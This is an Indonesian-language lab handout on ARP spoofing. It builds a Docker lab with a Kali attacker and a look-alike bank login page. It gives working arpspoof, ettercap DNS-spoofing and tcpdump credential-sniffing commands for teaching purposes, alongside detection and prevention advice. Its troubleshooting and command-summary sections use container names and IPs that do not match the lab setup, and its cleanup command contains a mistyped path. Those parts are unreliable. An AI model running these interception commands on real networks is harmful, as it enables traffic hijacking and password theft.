


# Materi Lengkap Pertemuan 3: L2 Security - ARP Spoofing

## Daftar Isi
1. [Apa itu ARP?](#1-apa-itu-arp)
2. [ARP Spoofing / ARP Poisoning](#2-arp-spoofing--arp-poisoning)
3. [Setup Lab dengan Docker Compose](#3-setup-lab-dengan-docker-compose)
4. [Hands-On: ARP Spoofing dengan arpspoof (dsniff)](#4-hands-on-arp-spoofing-dengan-arpspoof-dsniff)
5. [Hands-On: ARP Spoofing dengan Ettercap](#5-hands-on-arp-spoofing-dengan-ettercap)
6. [Hands-On: DNS Spoofing dengan Web Lokal](#6-hands-on-dns-spoofing-dengan-web-lokal)
7. [Deteksi dan Pencegahan](#7-deteksi-dan-pencegahan)
8. [Latihan Mandiri](#8-latihan-mandiri)
9. [Troubleshooting](#9-troubleshooting)

---

## 1. Apa itu ARP?

### Definisi Sederhana

**ARP (Address Resolution Protocol)** adalah protokol yang digunakan untuk memetakan alamat IP (layer 3) ke alamat MAC (layer 2) dalam jaringan lokal.

### Analogi Sehari-hari

Bayangkan Anda ingin mengirim surat di kompleks perumahan:
- **IP Address** = Nama orang (siapa yang dituju)
- **MAC Address** = Alamat rumah (dimana orang itu tinggal)
- **ARP** = Buku alamat yang menghubungkan nama orang dengan alamat rumahnya

### Cara Kerja ARP Normal


```mermaid
sequenceDiagram
    participant A as Komputer A<br>(192.168.1.10)
    participant B as Komputer B<br>(192.168.1.20)
    
    Note over A: Saya ingin kirim ke 192.168.1.20<br>Tapi tidak tahu MAC-nya
    
    A->>Broadcast: Siapa yang punya IP 192.168.1.20?<br> (ARP Request)
    Broadcast-->>B: Mendengar pertanyaan
    
    B->>A: Saya! MAC saya: AA:BB:CC:DD:EE:FF<br> (ARP Reply - Unicast)
    
    Note over A: Menyimpan di ARP Table:<br>192.168.1.20 = AA:BB:CC:DD:EE:FF
```

### ARP Table

Setiap komputer menyimpan cache ARP:

```bash
# Lihat ARP table di Windows
arp -a

# Lihat ARP table di Linux/Mac
ip neigh show
# atau
arp -n

Contoh output:
192.168.1.1 dev eth0 lladdr 02:42:c0:a8:01:01 REACHABLE
192.168.1.20 dev eth0 lladdr 02:42:c0:a8:01:14 STALE
```

---

## 2. ARP Spoofing / ARP Poisoning

### Apa itu ARP Spoofing?

**ARP Spoofing** adalah teknik di mana penyerang mengirimkan pesan ARP palsu ke jaringan, sehingga memetakan alamat IP korban ke alamat MAC penyerang.

### Mengapa ARP Rentan?

- **Tidak ada autentikasi**: ARP tidak memverifikasi apakah pesan itu asli
- **Stateless**: Setiap perangkat menerima ARP reply meskipun tidak meminta
- **Cache poisoning**: Perangkat akan memperbarui ARP table-nya dengan informasi baru

### Skenario Serangan


```mermaid
graph TD
    subgraph Jaringan Normal
        A[Korban A<br>IP: 192.168.1.10<br>MAC: AA:AA]
        B[Gateway<br>IP: 192.168.1.1<br>MAC: GG:GG]
        C[Web Server<br>IP: 192.168.1.200<br>MAC: WW:WW]
        
        A -->|"Ke website"| C
    end
    
    subgraph Setelah ARP Spoofing
        A2[Korban A<br>IP: 192.168.1.10]
        P[Penyerang<br>IP: 192.168.1.100<br>MAC: PP:PP]
        C2[Web Server<br>IP: 192.168.1.200]
        
        A2 -->|"ARP: 1.200 = PP:PP"| P
        P -->|"Forward"| C2
        C2 -->|"Response"| P
        P -->|"Forward"| A2
        
        style P fill:#ff8888,stroke:#f00
    end
```

### Apa yang Bisa Dilakukan Penyerang?

1. **Man-in-the-Middle (MITM)**: Menyadap semua komunikasi
2. **Session Hijacking**: Membajak session yang sudah ada
3. **Denial of Service**: Memutus koneksi korban
4. **Password Sniffing**: Menangkap password yang dikirim

---

## 3. Setup Lab dengan Docker Compose (Dengan Web Server Lokal)

### Langkah 1: Buat Folder Proyek di Terminal
```bash
cd ~
mkdir -p lab-arp-kali
cd lab-arp-kali
```

### Langkah 2: Buat file docker-compose.yml
Buka **VS Code** dari folder proyek:
```bash
code .
```

Di VS Code, buat file baru `docker-compose.yml` dan copy-paste konfigurasi ini:

```yaml
version: '3.8'

services:
  # KORBAN 1 - Target utama
  korban:
    image: ubuntu:22.04
    container_name: korban
    hostname: korban-pc
    networks:
      lab_network:
        ipv4_address: 172.20.0.10
    cap_add:
      - NET_ADMIN
      - NET_RAW
    privileged: false
    tty: true
    stdin_open: true
    volumes:
      - ./shared:/shared
      - ./korban-files:/root/files
    command: >
      bash -c "
      apt update &&
      apt install -y curl nano iputils-ping net-tools tcpdump arp-scan inetutils-tools &&
      echo 'Korban siap' &&
      tail -f /dev/null
      "

  # WEBSERVER ASLI - Bank/Website target
  web-asli:
    image: nginx:alpine
    container_name: web-asli
    hostname: bank-asli
    networks:
      lab_network:
        ipv4_address: 172.20.0.20
    volumes:
      - ./web-asli:/usr/share/nginx/html
      - ./web-asli/logs:/var/log/nginx
    ports:
      - "8080:80"
    command: >
      sh -c "
      apk add --no-cache curl &&
      echo 'Web Asli siap di port 8080' &&
      nginx -g 'daemon off;'
      "

  # WEBSERVER PALSU - Untuk demonstrasi DNS Spoofing
  web-palsu:
    image: nginx:alpine
    container_name: web-palsu
    hostname: bank-palsu
    networks:
      lab_network:
        ipv4_address: 172.20.0.30
    volumes:
      - ./web-palsu:/usr/share/nginx/html
      - ./web-palsu/logs:/var/log/nginx
    ports:
      - "8081:80"
    command: >
      sh -c "
      echo 'Web Palsu siap di port 8081' &&
      nginx -g 'daemon off;'
      "

  # GATEWAY/Router - Simulasi internet gateway
  gateway:
    image: alpine:latest
    container_name: gateway
    hostname: gateway
    networks:
      lab_network:
        ipv4_address: 172.20.0.254
    cap_add:
      - NET_ADMIN
      - NET_RAW
    sysctls:
      - net.ipv4.ip_forward=1
    privileged: true
    tty: true
    stdin_open: true
    volumes:
      - ./shared:/shared
    command: >
      sh -c "
      apk update &&
      apk add iptables iproute2 net-tools tcpdump curl busybox-extras &&
      echo 1 > /proc/sys/net/ipv4/ip_forward &&
      iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE &&
      echo 'Gateway siap di 172.20.0.254' &&
      tail -f /dev/null
      "

  # PENYERANG - KALI LINUX (dengan semua tools)
  penyerang:
    image: kalilinux/kali-rolling
    container_name: penyerang
    hostname: kali-hacker
    networks:
      lab_network:
        ipv4_address: 172.20.0.100
    cap_add:
      - NET_ADMIN
      - NET_RAW
      - SYS_ADMIN
      - SYS_MODULE
    sysctls:
      - net.ipv4.ip_forward=1
      - net.ipv4.conf.all.forwarding=1
    privileged: true
    tty: true
    stdin_open: true
    volumes:
      - ./shared:/shared
      - ./penyerang-tools:/tools
      - ./penyerang-data:/data
    command: >
      bash -c "
      apt update && 
      apt install -y dsniff ettercap-common ettercap-graphical tcpdump net-tools iproute2 curl nano vim arp-scan nmap wireshark iptables arping python3 python3-pip git ca-certificates &&
      pip3 install scapy --break-system-packages &&
      echo 1 > /proc/sys/net/ipv4/ip_forward &&
      echo 'KALI LINUX READY - ARP SPOOFING TOOLS INSTALLED' &&
      echo 'Commands available: arpspoof, ettercap, tcpdump, nmap' &&
      tail -f /dev/null
      "

networks:
  lab_network:
    driver: bridge
    ipam:
      config:
        - subnet: 172.20.0.0/16
```

### Langkah 3: Buat Struktur Folder di VS Code
Di VS Code, buat folder-folder berikut (klik kanan -> New Folder):
- `web-asli`
- `web-palsu` 
- `shared`
- `korban-files`
- `penyerang-tools`
- `penyerang-data`

Di dalam folder `web-asli`, buat folder lagi: `logs`
Di dalam folder `web-palsu`, buat folder lagi: `logs`

### Langkah 4: Buat File HTML Website Asli
Di VS Code, buat file baru `web-asli/index.html`:

```html
<!DOCTYPE html>
<html lang="id">
<head>
    <meta charset="UTF-8">
    <title>🏦 BANK NUSANTARA - Official Website</title>
    <style>
        * { margin: 0; padding: 0; box-sizing: border-box; }
        body { 
            font-family: 'Segoe UI', Arial, sans-serif; 
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            background: white;
            border-radius: 15px;
            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
            width: 90%;
            max-width: 450px;
            padding: 40px;
        }
        .header {
            text-align: center;
            margin-bottom: 30px;
        }
        .header h1 {
            color: #333;
            font-size: 28px;
        }
        .header .badge {
            background: #4CAF50;
            color: white;
            padding: 5px 15px;
            border-radius: 20px;
            font-size: 14px;
            display: inline-block;
            margin-top: 10px;
        }
        .info-panel {
            background: #e8f5e9;
            border-left: 4px solid #4CAF50;
            padding: 15px;
            border-radius: 5px;
            margin-bottom: 25px;
            font-size: 14px;
        }
        .info-panel .ip {
            font-family: monospace;
            background: #c8e6c9;
            padding: 3px 8px;
            border-radius: 3px;
        }
        .form-group {
            margin-bottom: 20px;
        }
        .form-group label {
            display: block;
            margin-bottom: 8px;
            color: #555;
            font-weight: 500;
        }
        .form-group input {
            width: 100%;
            padding: 12px;
            border: 2px solid #ddd;
            border-radius: 8px;
            font-size: 16px;
            transition: border-color 0.3s;
        }
        .form-group input:focus {
            border-color: #667eea;
            outline: none;
        }
        .btn-login {
            width: 100%;
            padding: 14px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
            border: none;
            border-radius: 8px;
            font-size: 16px;
            font-weight: 600;
            cursor: pointer;
            transition: transform 0.3s;
        }
        .btn-login:hover {
            transform: translateY(-2px);
        }
        .footer {
            margin-top: 25px;
            text-align: center;
            color: #999;
            font-size: 12px;
        }
        .warning {
            color: #f44336;
            font-size: 12px;
            margin-top: 5px;
        }
        .status-aman {
            color: #4CAF50;
            font-weight: bold;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🏦 BANK NUSANTARA</h1>
            <span class="badge">✅ WEBSITE RESMI</span>
        </div>
        
        <div class="info-panel">
            <strong>🔒 Koneksi Aman</strong><br>
            Server: <span class="ip">172.20.0.20</span> (Web Asli)<br>
            Status: <span class="status-aman">TERVERIFIKASI</span>
        </div>

        <form id="loginForm" method="POST" action="/login">
            <div class="form-group">
                <label>👤 Username / Nomor Rekening</label>
                <input type="text" name="username" placeholder="Masukkan username" required>
            </div>
            
            <div class="form-group">
                <label>🔑 Password</label>
                <input type="password" name="password" placeholder="Masukkan password" required>
            </div>
            
            <button type="submit" class="btn-login">MASUK KE AKUN</button>
            
            <div class="warning">
                * Hati-hati terhadap website palsu. Selalu periksa alamat website.
            </div>
        </form>
        
        <div class="footer">
            © 2024 Bank Nusantara. All rights reserved.<br>
            IP Server: 172.20.0.20
        </div>
    </div>

    <script>
        document.getElementById('loginForm').onsubmit = function(e) {
            e.preventDefault();
            const formData = new FormData(this);
            
            fetch('/login', {
                method: 'POST',
                body: new URLSearchParams(formData)
            })
            .then(response => response.text())
            .then(data => {
                alert('Login berhasil! (Simulasi)');
                console.log('Login data:', Object.fromEntries(formData));
            });
        };
    </script>
</body>
</html>
```

### Langkah 5: Buat File HTML Website Palsu
Buat file baru `web-palsu/index.html`:

```html
<!DOCTYPE html>
<html lang="id">
<head>
    <meta charset="UTF-8">
    <title>⚠️ PERINGATAN - DEMO ARP SPOOFING ⚠️</title>
    <style>
        * { margin: 0; padding: 0; box-sizing: border-box; }
        body { 
            font-family: 'Segoe UI', Arial, sans-serif; 
            background: linear-gradient(135deg, #ff6b6b 0%, #c92a2a 100%);
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            background: white;
            border-radius: 15px;
            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
            width: 90%;
            max-width: 450px;
            padding: 40px;
            border: 3px solid #ff0000;
        }
        .header {
            text-align: center;
            margin-bottom: 30px;
        }
        .header h1 {
            color: #c92a2a;
            font-size: 28px;
        }
        .header .badge {
            background: #ff4444;
            color: white;
            padding: 5px 15px;
            border-radius: 20px;
            font-size: 14px;
            display: inline-block;
            margin-top: 10px;
        }
        .warning-panel {
            background: #fff3f3;
            border-left: 4px solid #ff0000;
            padding: 15px;
            border-radius: 5px;
            margin-bottom: 25px;
            font-size: 14px;
        }
        .warning-panel .ip {
            font-family: monospace;
            background: #ffe5e5;
            padding: 3px 8px;
            border-radius: 3px;
            color: #c92a2a;
        }
        .form-group {
            margin-bottom: 20px;
        }
        .form-group label {
            display: block;
            margin-bottom: 8px;
            color: #555;
            font-weight: 500;
        }
        .form-group input {
            width: 100%;
            padding: 12px;
            border: 2px solid #ffa8a8;
            border-radius: 8px;
            font-size: 16px;
        }
        .btn-login {
            width: 100%;
            padding: 14px;
            background: linear-gradient(135deg, #ff6b6b 0%, #c92a2a 100%);
            color: white;
            border: none;
            border-radius: 8px;
            font-size: 16px;
            font-weight: 600;
            cursor: pointer;
        }
        .footer {
            margin-top: 25px;
            text-align: center;
            color: #999;
            font-size: 12px;
        }
        .demo-notice {
            background: #000;
            color: #ff0;
            padding: 10px;
            text-align: center;
            font-weight: bold;
            margin-top: 20px;
            border-radius: 5px;
        }
        .stolen-badge {
            background: #ff0;
            color: #c00;
            padding: 10px;
            border-radius: 5px;
            text-align: center;
            font-weight: bold;
            margin-bottom: 20px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>⚠️ BANK NUSANTARA ⚠️</h1>
            <span class="badge">❌ WEBSITE PALSU (DEMO)</span>
        </div>
        
        <div class="stolen-badge">
            🔴 PERINGATAN KEAMANAN 🔴<br>
            Website ini adalah TIRUAN untuk demonstrasi ARP Spoofing
        </div>
        
        <div class="warning-panel">
            <strong>🚨 DETEKSI SERANGAN</strong><br>
            Server: <span class="ip">172.20.0.30</span> (Web Palsu)<br>
            Status: <strong style="color:#c00;">TIDAK AMAN - PALSU</strong>
        </div>

        <form id="loginForm" method="POST" action="/login">
            <div class="form-group">
                <label>👤 Username / Nomor Rekening</label>
                <input type="text" name="username" placeholder="Masukkan username" required>
            </div>
            
            <div class="form-group">
                <label>🔑 Password</label>
                <input type="password" name="password" placeholder="Masukkan password" required>
            </div>
            
            <button type="submit" class="btn-login">LOGIN (BERBAHAYA!)</button>
        </form>
        
        <div class="demo-notice">
            ⚡ DEMO ARP SPOOFING ⚡<br>
            Data login akan dicatat di /data/stolen_credentials.txt
        </div>
        
        <div class="footer">
            © 2024 Demonstrasi Keamanan Jaringan<br>
            IP Server Palsu: 172.20.0.30
        </div>
    </div>

    <script>
        document.getElementById('loginForm').onsubmit = function(e) {
            e.preventDefault();
            const formData = new FormData(this);
            const data = Object.fromEntries(formData);
            
            console.log('DATA DICURI:', data);
            
            fetch('/login', {
                method: 'POST',
                body: new URLSearchParams(formData)
            })
            .then(response => response.text())
            .then(() => {
                alert('⚠️ PERINGATAN: Data Anda telah direkam untuk demonstrasi!');
            });
        };
    </script>
</body>
</html>
```

### Langkah 6: Buat File README untuk Penyerang
Buat file baru `penyerang-data/README.txt`:

```
=== DATA HASIL SERANGAN ===

Stolen credentials akan tercatat di file:
- stolen_credentials.txt (dari tcpdump)
- ettercap.log (dari ettercap)

IP Penting (Network: 172.20.0.0/16):
- Korban: 172.20.0.10
- Web Asli: 172.20.0.20
- Web Palsu: 172.20.0.30
- Gateway: 172.20.0.254
- Penyerang: 172.20.0.100

Tools yang tersedia di Kali:
- arpspoof : ARP spoofing
- ettercap : MITM + DNS spoof
- tcpdump : Packet capture
- nmap : Network scanner
- python3 + scapy : Custom script

Cara menggunakan:
1. arpspoof -i eth0 -t 172.20.0.10 172.20.0.20
2. arpspoof -i eth0 -t 172.20.0.20 172.20.0.10
3. echo 1 > /proc/sys/net/ipv4/ip_forward
4. tcpdump -i eth0 -A port 80
```

### Langkah 7: Jalankan Lab
Setelah semua file siap, jalankan di terminal:

```bash
cd ~/lab-arp-kali
docker-compose up -d
```

### Langkah 8: Cek Status
```bash
docker-compose ps
docker-compose logs -f penyerang
# Tekan Ctrl+C setelah melihat "KALI LINUX READY"
```

---

## **Bagian 2: Panduan Praktikum dengan IP Baru**

### Buka Terminal untuk Setiap Container

**Terminal 1 - Penyerang (Kali):**
```bash
docker exec -it penyerang bash
```

**Terminal 2 - Korban:**
```bash
docker exec -it korban bash
```

**Terminal 3 - Untuk monitoring:**
```bash
docker exec -it korban bash
# atau buka terminal baru
```

### IP Address yang Digunakan:
- Korban: `172.20.0.10`
- Web Asli: `172.20.0.20` (akses dari host: http://localhost:8080)
- Web Palsu: `172.20.0.30` (akses dari host: http://localhost:8081)
- Gateway: `172.20.0.254`
- Penyerang: `172.20.0.100`

### Langkah Praktikum (dengan IP baru)

**1. Lihat kondisi normal di korban:**
```bash
# Catat MAC asli web asli
arp -n | grep 172.20.0.20
# Contoh output: 172.20.0.20 ether 02:42:ac:14:00:14
```

**2. Jalankan serangan dari penyerang:**
```bash
# Aktifkan IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Terminal A
arpspoof -i eth0 -t 172.20.0.10 172.20.0.20

# Terminal B (buka terminal penyerang baru)
arpspoof -i eth0 -t 172.20.0.20 172.20.0.10

# Terminal C - sniffing
tcpdump -i eth0 -A port 80 | grep -E "user=|pass="
```

**3. Lihat perubahan di korban:**
```bash
arp -n | grep 172.20.0.20
# MAC sekarang berubah menjadi MAC penyerang (02:42:ac:14:00:64)
```

**4. DNS Spoofing dengan IP baru:**
```bash
# Di penyerang, buat file konfigurasi
cat > /etc/ettercap/etter.dns << 'EOF'
bank.local     A   172.20.0.30
www.bank.local A   172.20.0.30
bank.com       A   172.20.0.30
EOF

# Jalankan ettercap
ettercap -T -i eth0 -M arp:remote /172.20.0.10// /172.20.0.254// -P dns_spoof
```

**5. Test dari korban:**
```bash
nslookup bank.local
# Harusnya mengarah ke 172.20.0.30
curl http://bank.local
# Akan muncul website palsu
```

### Script Monitoring dengan IP

Buat file `monitor.sh` di VS Code dan simpan di folder `korban-files`:

```bash
#!/bin/bash

REAL_MAC="02:42:ac:14:00:14"  # Ganti dengan MAC asli web asli
GATEWAY_MAC="02:42:ac:14:00:fe"  # MAC gateway

echo "Monitoring ARP Table - 172.20.0.0/16"
echo "MAC Asli Web Asli: $REAL_MAC"
echo "========================================"

while true; do
    clear
    echo "Waktu: $(date '+%H:%M:%S')"
    echo "----------------------------------------"
    
    WEB_MAC=$(arp -n | grep 172.20.0.20 | awk '{print $3}')
    GW_MAC=$(arp -n | grep 172.20.0.254 | awk '{print $3}')
    
    echo "Web Asli (172.20.0.20): $WEB_MAC"
    echo "Seharusnya: $REAL_MAC"
    echo "Gateway (172.20.0.254): $GW_MAC"
    
    if [ "$WEB_MAC" != "$REAL_MAC" ] && [ ! -z "$WEB_MAC" ]; then
        echo "⚠️  PERINGATAN! ARP SPOOFING TERDETEKSI!"
    else
        echo "✅ Status: Aman"
    fi
    
    echo "========================================"
    sleep 2
done
```

Jalankan di korban:
```bash
bash /root/files/monitor.sh
```

### Cheat Sheet dengan IP

| Fungsi | Perintah (dengan IP 172.20.0.x) |
|--------|-------------------------------|
| Spoof korban | `arpspoof -i eth0 -t 172.20.0.10 172.20.0.20` |
| Spoof server | `arpspoof -i eth0 -t 172.20.0.20 172.20.0.10` |
| Sniff HTTP | `tcpdump -i eth0 -A port 80` |
| DNS Spoof | `ettercap -T -i eth0 -M arp:remote /172.20.0.10// /172.20.0.254// -P dns_spoof` |
| Akses web asli | `curl http://172.20.0.20` atau browser: `http://localhost:8080` |
| Akses web palsu | `curl http://172.20.0.30` atau browser: `http://localhost:8081` |

### Cleanup
```bash
# Di penyerang
killall arpspoof ettercap
echo 0 > /proc/sys/net/ivp4/ip_forward

# Di terminal utama
cd ~/lab-arp-kali
docker-compose down
```

## Troubleshooting

### Masalah: Container tidak bisa saling ping
```bash
# Cek network
docker network ls
docker network inspect netsec_network

# Pastikan semua container terhubung
docker-compose ps
```

### Masalah: Web server tidak bisa diakses
```bash
# Cek log webserver
docker-compose logs webserver

# Test dari dalam container
docker-compose exec webserver curl http://localhost
```

### Masalah: arpspoof command not found
```bash
# Install di attacker
docker-compose exec kali-attacker bash
apt update
apt install -y dsniff
```

### Masalah: IP forwarding tidak aktif
```bash
# Set manual di setiap container
docker exec kali-attacker sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
docker exec router sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
```

### Masalah: MAC address berubah
```bash
# Catat MAC asli setiap container
for container in ubuntu-target webserver fake-webserver router; do
    echo -n "$container: "
    docker exec $container cat /sys/class/net/eth0/address
done
```

### Masalah: Permission denied saat write file
```bash
# Gunakan folder shared yang sudah di-mount
# Semua container bisa akses /shared
```

---

## Ringkasan Perintah Penting

| Fungsi | Perintah |
|--------|----------|
| Start lab | `cd ~/netsec-lab && docker-compose up -d` |
| Stop lab | `docker-compose down` |
| Lihat container | `docker-compose ps` |
| Masuk attacker | `docker-compose exec kali-attacker bash` |
| Masuk target | `docker-compose exec ubuntu-target bash` |
| Masuk webserver | `docker-compose exec webserver bash` |
| Lihat ARP table | `arp -n` |
| ARP spoof | `arpspoof -i eth0 -t 192.168.1.10 192.168.1.200` |
| IP forwarding | `echo 1 > /proc/sys/net/ipv4/ip_forward` |
| Sniff HTTP | `tcpdump -i eth0 -A port 80` |
| Ettercap | `ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.200//` |
| DNS spoof | `ettercap -T -i eth0 -M arp:remote // // -P dns_spoof` |
| Static ARP | `arp -s 192.168.1.200 02:42:c0:a8:01:c8` |
| Lihat MAC | `cat /sys/class/net/eth0/address` |
| Cleanup | `/tmp/cleanup_all.sh` |

---

## ⚠️ Catatan Penting

1. **Legalitas**: Praktik ini HANYA untuk pembelajaran di lab sendiri. ARP spoofing di jaringan orang lain adalah ILEGAL.

2. **Website Lokal**: Semua website dalam lab ini (asli dan palsu) dibuat khusus untuk demonstrasi.

3. **Deteksi**: ARP spoofing mudah dideteksi dengan monitoring ARP table.

4. **Pencegahan**: 
   - Gunakan static ARP untuk server penting
   - Gunakan HTTPS meskipun dengan self-signed certificate
   - Monitor perubahan ARP table

5. **Bersih-bersih**: Selalu jalankan cleanup script setelah selesai praktik.

6. **MAC Address**: Catat MAC address asli setiap container untuk deteksi.
